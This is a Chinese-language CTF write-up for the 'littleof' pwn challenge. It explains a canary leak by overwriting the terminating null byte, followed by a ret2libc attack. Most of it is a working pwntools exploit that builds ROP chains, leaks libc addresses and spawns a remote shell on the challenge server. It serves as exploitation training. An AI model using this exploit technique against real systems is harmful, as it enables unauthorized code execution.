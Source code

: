 # canary+ret2libc

例题：[[2021 鹤城杯\]littleof | NSSCTF](https://www.nssctf.cn/problem/468)

1. 利用 **覆盖截断字符** 来泄漏 **canary** ，再ret2libc获得shell：

   ![image-20240702115712821](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021157889.png)

2. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   # p = process("./littleof")
   p = remote("node4.anna.nssctf.cn",28515)   
   elf = ELF("./littleof")
   
   #覆盖截断字符，获取canary
   p.recvuntil(b'Do you know how to do buffer overflow?\n')
   #发送var_c-buf+1个 b'a'，最后一个a可以覆盖掉canary的最低字节 b`\x00`
   payload = b'a'*(0x50-0x8+1)
   p.send(payload)
   #接受返回后从行拼接canary
   canary = p.recv()[0x49:0x49+7]
   canary = canary.rjust(8,b'\x00')    #从新组成canary
   print(hex(u64(canary)))
   
   
   #ret2libc
   #获取got、plt地址
   got = elf.got['puts']
   plt = elf.plt['puts']
   print(hex(got),hex(plt))
   
   #获取传参地址
   pop_rdi_ret = 0x0000000000400863
   main_addr = 0x00000000004006E2
   ret = 0x000000000040059e
   
   #构造payload，获得puts函数的地址
   payload = b'a'*(0x50-8)+canary+b'a'*8+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   p.sendline(payload)
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   libc = LibcSearcher('puts',addr)
   libc_base = addr - libc.dump('puts')
   sys_addr = libc_base + libc.dump('system')
   str_bin = libc_base + libc.dump('str_bin_sh')
   print(hex(libc_base),hex(sys_addr),hex(str_bin))
   
   #重新回到sub_4006E2函数，这次不需要泄漏canary,随便输入即可
   p.recvuntil(b'overflow?\n')
   p.send("aaaaaaaaaa")
   
   payload = b'a'*(0x50-8)+canary+b'a'*8+p64(ret)+p64(pop_rdi_ret)+p64(str_bin)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cat flag')
   # 与远程交互
   p.interactive()
   ```

   

   ![image-20240702120127085](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021409062.png)![image-20240702120105214](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021201298.png)
   
   